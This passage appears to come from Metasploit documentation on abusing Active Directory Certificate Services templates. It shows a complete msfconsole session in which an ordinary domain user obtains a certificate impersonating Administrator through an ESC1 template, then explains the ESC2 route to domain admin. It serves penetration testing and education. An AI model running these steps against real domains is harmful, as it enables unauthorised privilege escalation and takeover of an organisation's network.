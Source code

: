 ```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Template
CERT_TEMPLATE => ESC1-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_SID S-1-5-21-3402587289-1488798532-3618296993-1000
ALT_SID => S-1-5-21-3402587289-1488798532-3618296993-1000
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1000
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator`
domain administrator. See the [Getting A Kerberos Ticket](#getting-a-kerberos-ticket) section for more information.

# Exploiting ESC2 To Gain Domain Administrator Privileges
From the previous enumeration efforts we know that the following certificate templates are vulnerable to ESC2:
- SubCA - Not exploitable as you have to be a Domain Admin or Enterprise Admin to enroll in this certificate
- ESC2-Template - Enrollable by any authenticated user that is part of the Domain Users group, aka any authenticated domain user.

We will use ESC2-Template to gain a TGT as the domain administrator user.

To do this we will use the `ipcr_cert` module and we will set the usual options, however we will need to run it twice. This is because with ESC2, we can't use the vulnerability to request authentication certificates as other users without the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag being set on the template. Instead what we can do is use the Any Purpose EKU or SubCA EKU that are set on these certificates to authenticate to the domain as the user who requested the certificate. So what we do is first get a ESC2 vulnerable certificate, then abuse the ability to use that certificate for any purpose to then request a certificate on behalf of another user, using that certificate as the form of authentication for this operation.
